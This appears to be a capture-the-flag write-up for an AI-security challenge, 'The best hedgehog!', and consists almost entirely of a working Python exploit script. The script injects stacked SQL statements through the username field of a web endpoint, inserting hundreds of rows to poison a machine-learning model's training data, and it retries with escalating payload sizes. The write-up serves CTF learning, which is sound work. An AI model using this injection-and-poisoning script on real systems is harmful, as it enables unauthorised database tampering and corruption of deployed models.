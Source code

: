 ```yaml
---
layout: page
title: The best hedgehog!
description: 252 points
importance: 3
category: "Web, Machine Learning & Data"
---
```


> #### Challenge> Hmm, I think there is a way to make me the Best Hedgehog ever! Help me do it, and I'll reward you generously! ~ Jaga, the Cybersecurity Hedgehog
> Hmm, I think there is a way to make me the Best Hedgehog ever! Help me do it, and I'll reward you generously! ~ Jaga, the Cybersecurity Hedgehog
{: .block-tip }

#### Solution
Looking at the code, we can see that the /add_hedgehog endpoint builds SQL without sanitizing user input. This gives us an avenue to inject multiple entries instead of 1 to really poison the train set, allowing us to bias the model towards giving jaga a 100 score.

{% highlight python linenos %}
import requests, json, time

TARGET_BASE = "https://best-hedgehog.aictf.sg"
ADD_ENDPOINT = TARGET_BASE.rstrip('/') + "/add_hedgehog"
START_INSERTS = 80
MAX_INSERTS = 800
MAX_ATTEMPTS = 30
SLEEP_BASE = 1.5
VERIFY_TLS = True
TIMEOUT = 30

FURRINESS = 45
CUTENESS = 50
FRIENDLINESS = 40
CURIOSITY = 35
AGILITY = 48
SLEEPINESS = 42

def make_inserts_chunk(n):
    parts = []
    for i in range(1, n+1):
        uname = f"p{i}"
        parts.append(
            "INSERT INTO hedgehogs(username,furriness,cuteness,friendliness,curiosity,agility,sleepiness,evaluation_score) "
            f"VALUES('{uname}',{FURRINESS},{CUTENESS},{FRIENDLINESS},{CURIOSITY},{AGILITY},{SLEEPINESS},100);"
        )
    return " ".join(parts)

def build_variantA_payload(num_inserts):
    inserts = make_inserts_chunk(num_inserts)
    payload = f"x',{FURRINESS},{CUTENESS},{FRIENDLINESS},{CURIOSITY},{AGILITY},{SLEEPINESS}); {inserts} /*"
    return payload

def post_payload(payload):
    data = {
        "username": payload,
        "furriness": "0",
        "cuteness": "0",
        "friendliness": "0",
        "curiosity": "0",
        "agility": "0",
        "sleepiness": "0",
        "evaluation_score": ""
    }
    headers = {"User-Agent": "HedgehogAutoPoison/1.0", "Accept": "application/json"}
    resp = requests.post(ADD_ENDPOINT, data=data, headers=headers, timeout=TIMEOUT, verify=VERIFY_TLS)
    return resp

def extract_jaga_and_message(resp_json):
    jaga_entry = None
    message = resp_json.get("message") if isinstance(resp_json, dict) else None
    for key in ("hedgehogs", "hedgehogs_list", "hedgehogs_list"):
        arr = resp_json.get(key) if isinstance(resp_json, dict) else None
        if isinstance(arr, list):
            for hh in arr:
                if isinstance(hh, dict) and hh.get("username") == "jaga":
                    jaga_entry = hh
                    break
        if jaga_entry:
            break
    return jaga_entry, message

def attempt_poison_batch(num_inserts):
    payload = build_variantA_payload(num_inserts)
    try:
        r = post_payload(payload)
    except Exception as e:
        print(f"[!] HTTP error while posting payload: {e}")
        return None, None, None

    try:
        j = r.json()
    except Exception:
        return None, None, r.text

    jaga, message = extract_jaga_and_message(j)
    return j, jaga, message

def main():
    print("[*] Automated hedgehog poisoning")
    print(f"[*] Target: {ADD_ENDPOINT}")
    inserts = START_INSERTS

    for attempt in range(1, MAX_ATTEMPTS + 1):
        print(f"\n--- Attempt {attempt} (inserts={inserts}) ---")
        j, jaga, message = attempt_poison_batch(inserts)

        if j is None and jaga is None and message is None:
            print("[!] No JSON returned; check network/target")
            break

        if message:
            print("[*] Server message:", message)

        if jaga:
            try:
                eval_score = float(jaga.get("evaluation_score") or jaga.get("evaluation_sc") or jaga.get("evaluation", 0))
            except Exception:
                eval_score = None
                for k in ("evaluation_score", "evaluation_sc", "evaluation"):
                    v = jaga.get(k)
                    try:
                        eval_score = float(v)
                        break
                    except Exception:
                        continue
            print("[*] jaga entry found:", json.dumps(jaga, indent=2))
            if eval_score is not None:
                print(f"[*] jaga evaluation: {eval_score}")
                if eval_score >= 100.0:
                    print("[+] Success: jaga >= 100")
                    return
                else:
                    print("[*] Not yet 100; will try again increasing poison strength.")
            else:
                print("[*] jaga found but couldn't parse evaluation score.")
        else:
            print("[*] jaga not present in response.")

        inserts = min(int(inserts * 1.6) + 10, MAX_INSERTS)
        sleep_for = SLEEP_BASE * (1.5 ** (attempt - 1))
        print(f"[*] Sleeping {sleep_for:.1f}s before next attempt (inserts now {inserts})")
        time.sleep(sleep_for)

    print("[!] Reached MAX_ATTEMPTS without getting jaga >= 100. Try raising MAX_INSERTS or re-tuning parameters.")

if __name__ == "__main__":
    main()

{% endhighlight %}
